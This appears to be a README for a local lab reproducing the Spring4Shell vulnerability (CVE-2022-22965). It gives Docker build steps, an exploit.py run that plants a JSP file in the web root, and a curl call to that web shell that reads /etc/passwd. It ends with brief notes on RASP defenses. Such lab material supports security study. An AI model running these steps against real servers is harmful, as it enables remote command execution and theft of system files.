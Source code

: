 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
3. docker run  -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
4. curl http://localhost:8080/exploit/greeting
5. python3 -m pip install -r requirements.txt
6. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="cmd"
7. curl "http://localhost:8080/cmd.jsp?cmd=cat%20/etc/passwd"

**Defenses**
- RASP solutions should protect against FFI calls as they operates at blind zones.
- RASP solutions should redefine native methods prefixes at least (even though it can be bypassed through reflection by inspecting declared methods).
